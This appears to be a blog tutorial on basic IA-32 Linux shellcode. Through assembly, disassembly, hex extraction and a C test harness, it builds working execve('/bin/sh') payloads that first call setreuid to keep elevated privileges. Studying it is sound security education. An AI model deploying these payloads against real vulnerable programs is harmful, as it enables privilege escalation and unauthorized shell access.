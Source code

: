 ```yaml
---
layout: post
title: "IA-32 Linux Shellcode Basics 2"
date: 2015-06-26 11:08:30 +0200
comments: true
categories: [exploit, shellcode]
---
```

Starting with the ASM code that is position dependent:
{% codeblock lang:asm shell1.asm %}
section .data
cmd db '/bin/sh',0x0

section .text
global _start
_start:

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
mov eax, 11
lea ebx, [cmd]
mov ecx, 0
push ecx
push ebx
mov ecx, esp
mov edx, 0
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell1.asm; ld shell1.o -o shell1

root@kali32:/tmp# ./shell1 
# 
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell1

shell1:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	b8 0b 00 00 00       	mov    eax,0xb
 8048085:	8d 1d 9c 90 04 08    	lea    ebx,ds:0x804909c
 804808b:	b9 00 00 00 00       	mov    ecx,0x0
 8048090:	51                   	push   ecx
 8048091:	53                   	push   ebx
 8048092:	89 e1                	mov    ecx,esp
 8048094:	ba 00 00 00 00       	mov    edx,0x0
 8048099:	cd 80                	int    0x80
{% endcodeblock %}

The minimalistic shell could look like `execve("/bin/sh", NULL, NULL)`.
However, according documentation it's not portable among UNIX systems:

{% codeblock %}
man 2 execve

  On Linux, argv can be specified as NULL, which has the same effect as
  specifying this argument as a pointer to a list containing a single NULL
  pointer.  Do not take advantage of this  misfea‐ ture!  It is nonstandard and
  nonportable: on most other UNIX systems doing this will result in an error
  (EFAULT).
{% endcodeblock %}

Again, the same procedure. We need to get rid of absolute address reference and
NULL bytes.

{% codeblock lang:asm shell2.asm %}
section .text
global _start
_start:

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
xor eax, eax
xor edx, edx

push eax ; \0
push 'n/sh'
push '//bi'
mov ebx, esp

push eax ; \0
push ebx ; /bin/sh
mov ecx, esp

mov  al, 11
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell2.asm; ld shell2.o -o shell2

root@kali32:/tmp# ./shell2 
# 
{% endcodeblock %}

Before we dump our opcodes, we add `setreuid(geteuid(), geteuid()` call:

{% codeblock lang:asm shell3.asm %}
section .text
global _start
_start:

; geteuid
push byte 49
pop eax
int 0x80

; setreuid(geteuid(), geteuid()
mov ebx, eax
mov ecx, eax
push byte 70
pop eax
int 0x80

;execve("/bin/sh", {"/bin/sh", NULL}, NULL)
xor eax, eax
xor edx, edx

push eax ; \0
push 'n/sh'
push '//bi'
mov ebx, esp

push eax ; \0
push ebx ; /bin/sh
mov ecx, esp

mov  al, 11
int 0x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# nasm -f elf shell3.asm; ld shell3.o -o shell3

root@kali32:/tmp# ./shell3 
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell3

shell3:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	6a 31                	push   0x31
 8048062:	58                   	pop    eax
 8048063:	cd 80                	int    0x80
 8048065:	89 c3                	mov    ebx,eax
 8048067:	89 c1                	mov    ecx,eax
 8048069:	6a 46                	push   0x46
 804806b:	58                   	pop    eax
 804806c:	cd 80                	int    0x80
 804806e:	31 c0                	xor    eax,eax
 8048070:	31 d2                	xor    edx,edx
 8048072:	50                   	push   eax
 8048073:	68 6e 2f 73 68       	push   0x68732f6e
 8048078:	68 2f 2f 62 69       	push   0x69622f2f
 804807d:	89 e3                	mov    ebx,esp
 804807f:	50                   	push   eax
 8048080:	53                   	push   ebx
 8048081:	89 e1                	mov    ecx,esp
 8048083:	b0 0b                	mov    al,0xb
 8048085:	cd 80                	int    0x80
{% endcodeblock %}

Analogously as before:
{% codeblock %}
root@kali32:/tmp# objdump -d shell3 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d ''
\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# sc=$(objdump -d shell3 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d '')

root@kali32:/tmp# echo $sc | ruby -e 'print $stdin.read.scan(/\\x(..)/).flatten.map{ |x| x.to_i(16).chr }.join' > shellcode
{% endcodeblock %}

{% codeblock %}
#include <sys/mman.h>
#include <string.h>
#include <stdio.h>

char sc[]= "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(){
        void * a = mmap(0, 4096, PROT_EXEC |PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0); 
        printf("allocated executable memory at: %p\n", a); 
        printf("shellcode length: %d\n", strlen(sc)); 
        ((void (*)(void)) memcpy(a, sc, sizeof(sc)))();
}
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# gcc test.c -o test
root@kali32:/tmp# ./test 
allocated executable memory at: 0xb76f7000
shellcode length: 39
# 
{% endcodeblock %}

Alternatively we can obtain string reference with `call` instruction:

{% codeblock lang:asm shell4.asm %}
section .text
global _start
_start:

; geteuid
push byte 49
pop eax
int 0x80

; setreuid(geteuid(), geteuid()
mov ebx, eax
mov ecx, eax
push byte 70
pop eax
int 0x80

;execve("/bin/sh", NULL, NULL);
xor eax, eax
xor ecx, ecx
xor edx, edx

jmp short string_loc

string_loc_ret:
pop ebx
mov [ebx+7], cl ; rewrite N with \0

push edx; \0
push ebx; /bin/sh
mov esp, ecx

mov al, 11
int 0x80

string_loc:
call string_loc_ret ; this put the (return) address of the string to the top of the stack
db '/bin/shN'
{% endcodeblock %}


{% codeblock %}
root@kali32:/tmp# nasm -f elf shell4.asm; ld shell4.o -o shell4

root@kali32:/tmp# ./shell4
Segmentation fault
{% endcodeblock %}

The segfault is normal and it's because we are trying to overwrite the code
segment at the line `mov BYTE PTR [ebx+0x7],cl`. Because our shellcode will be
loaded on stack, that doesn't mean any complication.

{% codeblock %}
root@kali32:/tmp# objdump -M intel -d shell4

shell4:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	6a 31                	push   0x31
 8048062:	58                   	pop    eax
 8048063:	cd 80                	int    0x80
 8048065:	89 c3                	mov    ebx,eax
 8048067:	89 c1                	mov    ecx,eax
 8048069:	6a 46                	push   0x46
 804806b:	58                   	pop    eax
 804806c:	cd 80                	int    0x80
 804806e:	31 c0                	xor    eax,eax
 8048070:	31 c9                	xor    ecx,ecx
 8048072:	31 d2                	xor    edx,edx
 8048074:	eb 0c                	jmp    8048082 <string_loc>

08048076 <string_loc_ret>:
 8048076:	5b                   	pop    ebx
 8048077:	88 4b 07             	mov    BYTE PTR [ebx+0x7],cl
 804807a:	52                   	push   edx
 804807b:	53                   	push   ebx
 804807c:	89 cc                	mov    esp,ecx
 804807e:	b0 0b                	mov    al,0xb
 8048080:	cd 80                	int    0x80

08048082 <string_loc>:
 8048082:	e8 ef ff ff ff       	call   8048076 <string_loc_ret>
 8048087:	2f                   	das    
 8048088:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
 804808b:	2f                   	das    
 804808c:	73 68                	jae    80480f6 <string_loc+0x74>
 804808e:	4e                   	dec    esi
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# objdump -d shell4 | tr '[:blank:]' '\n' | egrep '^[0-9a-f]{2}$' | sed 's#^#\\x#' | paste -s -d ''
\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xc9\x31\xd2\xeb\x0c\x5b\x88\x4b\x07\x52\x53\x89\xcc\xb0\x0b\xcd\x80\xe8\xef\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e
{% endcodeblock %}

{% codeblock lang:c test.c %}
#include <sys/mman.h>
#include <string.h>
#include <stdio.h>

char sc[]= "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xc9\x31\xd2\xeb\x0c\x5b\x88\x4b\x07\x52\x53\x89\xcc\xb0\x0b\xcd\x80\xe8\xef\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e";

int main(){
        void * a = mmap(0, 4096, PROT_EXEC |PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0); 
        printf("allocated executable memory at: %p\n", a); 
        printf("shellcode length: %d\n", strlen(sc)); 
        ((void (*)(void)) memcpy(a, sc, sizeof(sc)))();
}
{% endcodeblock %}

{% codeblock %}
root@kali32:/tmp# ./test 
allocated executable memory at: 0xb7789000
shellcode length: 47
# 
{% endcodeblock %}


